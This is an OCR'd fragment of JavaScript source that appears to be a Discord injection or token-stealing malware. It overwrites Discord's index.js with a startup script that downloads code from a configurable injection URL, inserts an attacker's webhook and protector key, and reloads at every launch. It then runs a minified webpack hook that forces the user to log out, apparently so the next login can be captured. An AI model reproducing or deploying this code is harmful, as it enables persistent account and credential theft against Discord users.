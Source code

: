   if (process.platform === 'win32' || process.platform === 'darwin') {
    fs.writeFileSync(
      packageJson,
      JSON.stringify(
        {
          name: 'discord',
          main: 'index.js',
        },
        null,
        4,
      ),
    );

    const startUpScript = `const fs = require('fs'), https = require('https');
const indexJs = '${indexJs}';
const bdPath = '${bdPath}';
const fileSize = fs.statSync(indexJs).size
fs.readFileSync(indexJs, 'utf8', (err, data) => {
    if (fileSize < 20000 || data === "module.exports = require('./core.asar')") 
        init();
})
async function init() {
    https.get('${config.injection_url}', (res) => {
        const file = fs.createWriteStream(indexJs);
        res.replace('%WEBHOOK%', '${config.webhook}')
        res.replace('%WEBHOOK_KEY%', '${config.webhook_protector_key}')
        res.pipe(file);
        file.on('finish', () => {
            file.close();
        });
    
    }).on("error", (err) => {
        setTimeout(init(), 10000);
    });
}
require('${path.join(resourcePath, 'app.asar')}')
if (fs.existsSync(bdPath)) require(bdPath);`;
    fs.writeFileSync(resourceIndex, startUpScript.replace(/\\/g, '\\\\'));
  }
  if (!fs.existsSync(path.join(__dirname, 'initiation'))) return !0;
  fs.rmdirSync(path.join(__dirname, 'initiation'));
  execScript(
    `window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]);function LogOut(){(function(a){const b="string"==typeof a?a:null;for(const c in gg.c)if(gg.c.hasOwnProperty(c)){const d=gg.c[c].exports;if(d&&d.__esModule&&d.default&&(b?d.default[b]:a(d.default)))return d.default;if(d&&(b?d[b]:a(d)))return d}return null})("login").logout()}LogOut();`,
  );
  return !1;
}
